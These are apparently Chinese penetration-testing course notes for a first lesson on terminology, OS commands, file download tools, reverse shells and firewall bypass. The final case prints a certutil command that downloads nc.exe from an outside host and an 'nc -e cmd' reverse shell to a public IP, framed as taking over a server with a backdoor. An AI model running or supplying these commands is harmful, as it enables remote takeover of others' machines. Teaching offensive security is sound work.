 [toc]

# 基础入门-操作系统&名词&文件下载&反弹SHELL&防火墙绕过

![课表](/Users/yangluchao/Documents/GitHub/security/image/day1.png)

#知识点：

1.  名词解释-渗透测试-漏洞&攻击&后门&代码&专业词
2.  必备技能-操作系统-用途&命令&权限&用户&防火墙
3.  必备技能-文件下载-缘由&场景&使用-提权&后渗透
4.  必备技能-反弹命令-缘由&场景&使用-提权&后渗透

==前后端，POC/EXP，Payload/Shellcode，后门/Webshell，木马/病毒，
反弹，回显，跳板，黑白盒测试，暴力破解，社会工程学，撞库，ATT&CK等==
参考：

[渗透测试常用术语总结](https://www.cnblogs.com/sunny11/p/13583083.html)

[文件下载命令生成](https://forum.ywhack.com/bountytips.php?download)

[反弹shell命令一键生成](https://forum.ywhack.com/reverse-shell/)

[渗透测试常用命令](https://forum.ywhack.com/reverse-shell/)：

​	


演示案例：
➢ 基础案例1：操作系统-用途&命令&权限&用户&防火墙
➢ 实用案例1：文件上传下载-解决无图形化&解决数据传输
➢ 实用案例2：反弹Shell命令-解决数据回显&解决数据通讯
➢ 结合案例1：防火墙绕过-正向连接&反向连接&内网服务器
➢ 结合案例2：学会了有手就行-Fofa拿下同行Pikachu服务器
#基础案例1：操作系统-用途&命令&权限&用户&防火墙
1、个人计算机&服务器用机
2、Windows&Linux常见命令
3、文件权限&服务权限&用户权限等
4、系统用户&用户组&服务用户等分类
5、自带防火墙出站&入站规则策略协议

#实用案例1：文件上传下载-解决无图形化&解决数据传输
Linux：wget curl python ruby perl java等
Windows：PowerShell Certutil Bitsadmin msiexec mshta rundll32等

#实用案例2：反弹Shell命令-解决数据回显&解决数据通讯
useradd 用户名 passwd 用户名
测试Linux系统添加用户或修改密码命令交互回显问题

#结合案例1：防火墙绕过-正向连接&反向连接&内网服务器
1、内网：
内网 -> xiaodi8
xiaodi8 !-> 内网
2、防火墙：
xiaodi8 <-> aliyun
xiaodi8防火墙 -> aliyun
aliyun !-> xiaodi8防火墙

#结合案例2：学会了有手就行-Fofa拿下同行Pikachu服务器
文件下载&反弹Shell:
certutil -urlcache -split -f http://www.xiaodi8.com/nc.exe nc.exe
nc -e cmd 47.75.212.155 5566

==下载木马程序，执行后门命令，实现控制的目的==

涉及资源：
https://docs.qq.com/doc/DQ3Z6RkNpaUtMcEFr
